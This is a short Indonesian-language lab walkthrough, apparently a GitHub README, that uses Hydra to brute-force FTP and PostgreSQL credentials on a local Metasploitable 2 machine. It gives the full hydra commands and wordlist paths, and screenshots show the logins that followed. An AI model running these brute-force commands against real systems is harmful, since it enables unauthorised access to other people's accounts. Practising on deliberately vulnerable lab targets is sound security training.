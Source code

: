 # Hydra
- IP Metasploitable 2 di local: 192.168.1.114

## Brute Force FTP Credentials
- Gunakan perintah: `hydra -L user-metasploitable2.txt -P password-metasploitable2.txt 192.168.1.114 ftp`
- Username dan password yang ditemukan:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-ftp.JPG?raw=true)

- Melakukan akses ke FTP Server:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-ftp.JPG?raw=true)

## Brute Force PostgreSQL Credentials
- Gunakan perintah: `hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_pass.txt 192.168.1.114 postgres`
- Username dan password yang ditemukan:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/hydra-postgres.JPG?raw=true)

- Melakukan akses ke PostgreSQL:
![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/hydra/assets/akses-postgresql.JPG?raw=true)
